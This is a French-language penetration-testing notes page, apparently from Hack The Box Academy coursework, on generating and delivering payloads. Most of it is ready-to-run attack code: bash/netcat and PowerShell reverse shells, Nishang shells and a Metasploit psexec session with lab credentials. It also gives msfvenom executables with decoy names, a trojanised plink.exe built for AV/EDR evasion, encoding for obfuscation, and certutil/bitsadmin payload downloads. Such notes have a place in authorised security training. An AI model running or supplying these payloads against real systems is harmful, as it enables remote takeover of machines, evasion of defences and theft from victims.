

## Gestion et génération de payloads



> [!warning] Attention : les payloads non encodés sont immédiatement détectés par Windows Defender/AV

> [!note] Différence critique entre payloads staged (nécessitent un handler) et stageless

> [!danger] Risque de corruption de shell avec les caractères spéciaux (badchars)

> [!info] Nécessité de gérer l'ExecutionPolicy sur Windows pour les scripts .ps1

## Définition des payloads

Un **payload** est le code ou la commande qui réalise l'action malveillante, tel que l'exécution de commandes ou l'ouverture d'un shell. Il est généralement injecté via une vulnérabilité comme une **RCE**, **LFI** ou un upload non filtré.

## Payloads Bash/Netcat

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

| Segment | Rôle |
| :--- | :--- |
| `rm -f /tmp/f;` | Supprime un éventuel fichier `f` |
| `mkfifo /tmp/f;` | Crée un pipe nommé (FIFO) |
| `cat /tmp/f\|` | Lit le pipe |
| `/bin/bash -i` | Lance un shell interactif |
| `2>&1` | Redirige les erreurs vers la sortie standard |
| `\|nc 10.10.14.12 7777` | Envoie vers le listener |
| `> /tmp/f` | Réinjecte les entrées dans le pipe |

## Payloads PowerShell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush() }; $client.Close()"
```

| Segment | Explication |
| :--- | :--- |
| `powershell -nop -c` | Lance PowerShell sans profil |
| `New-Object System.Net.Sockets.TCPClient` | Crée une connexion TCP sortante |
| `iex $data` | Exécute la commande reçue (**Invoke-Expression**) |
| `Out-String` | Transforme la sortie en texte brut |

## Nishang

**Nishang** permet d'utiliser des scripts pré-conçus pour des shells interactifs.

* Reverse shell :
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443
```
* Bind shell :
```powershell
Invoke-PowerShellTcp -Bind -Port 4444
```

## Metasploit Framework

L'utilisation de **Metasploit** repose sur la sélection de modules et la configuration de paramètres.

```bash
sudo msfconsole
nmap -sC -sV -Pn 10.129.164.25
search smb
use exploit/windows/smb/psexec
options
set RHOSTS 10.129.180.71
set SMBUser htb-student
set SMBPass HTB_@cademy_stdnt!
set SHARE ADMIN$
set LHOST 10.10.14.222
exploit
```

Une fois la session **Meterpreter** ouverte :
```bash
meterpreter > shell
```

## MSFvenom

**MSFvenom** permet de générer des payloads personnalisés.

* Payload Linux (.ELF) :
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > backup.elf
chmod +x backup.elf
./backup.elf
```

* Payload Windows (.EXE) :
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > PlanPrime2024.exe
```

## Gestion des badchars

Lors de l'exploitation de vulnérabilités de type **Buffer Overflow**, certains caractères peuvent corrompre le payload (ex: `\x00` null byte, `\x0a` line feed, `\x0d` carriage return).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -b "\x00\x0a\x0d" -f exe > payload.exe
```

## Utilisation de templates personnalisés pour MSFvenom

L'utilisation d'un template légitime permet de réduire le taux de détection par les solutions EDR/AV.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -x /usr/share/windows-binaries/plink.exe -k -f exe > backdoored_plink.exe
```
* **-x** : Spécifie le fichier exécutable template.
* **-k** : Conserve le comportement original du template tout en injectant le payload dans un nouveau thread.

## Techniques d'obfuscation avancées

Au-delà de `shikata_ga_nai`, on utilise des techniques d'encodage multi-couches ou des outils comme **Donut** pour transformer des exécutables en shellcode position-independent.

```bash
# Exemple d'encodage via PowerShell (Base64)
$command = "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encodedCommand
```

## Analyse de la stabilité des shells

Un shell instable peut être causé par une mauvaise gestion des signaux ou une terminaison du processus parent.

* **Linux** : Utiliser `python3 -c 'import pty; pty.spawn("/bin/bash")'` pour obtenir un TTY interactif, puis `Ctrl+Z` et `stty raw -echo; fg` pour gérer les interruptions.
* **Windows** : Privilégier les payloads **Stageless** pour éviter la dépendance à une connexion réseau persistante du processus de staging.

## Méthodes de transfert de fichiers

Une fois le payload généré, il doit être transféré sur la cible.

* **Python (HTTP)** :
```bash
# Attaquant
python3 -m http.server 8000
# Cible (Windows)
certutil -urlcache -split -f http://10.10.14.113:8000/payload.exe payload.exe
```

* **Bitsadmin** :
```bash
bitsadmin /transfer n http://10.10.14.113/payload.exe C:\Users\Public\payload.exe
```

## Contournement AV basique

L'encodage peut être utilisé pour tenter d'échapper aux signatures statiques, bien que limité.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -e x86/shikata_ga_nai -i 5 -f exe > safeplan.exe
```

* **-e** : Définit l'encodeur
* **-i** : Nombre d'itérations d'encodage

## Staged vs Stageless

| Type | Exemple Payload | Utilisation |
| :--- | :--- | :--- |
| **Staged** | `windows/meterpreter/reverse_tcp` | Nécessite un handler **Metasploit** |
| **Stageless** | `windows/meterpreter_reverse_tcp` | Exécution autonome |

Ces techniques sont souvent couplées avec des méthodes de transfert de fichiers comme **Python** http, **certutil** ou **bitsadmin** pour acheminer le payload sur la cible. La stabilité du shell dépend du type de payload et de l'environnement d'exécution.

---
*Notes liées : [[Reverse Shell]], [[Pivoting]], [[Windows]], [[Linux]], [[Webshells]]*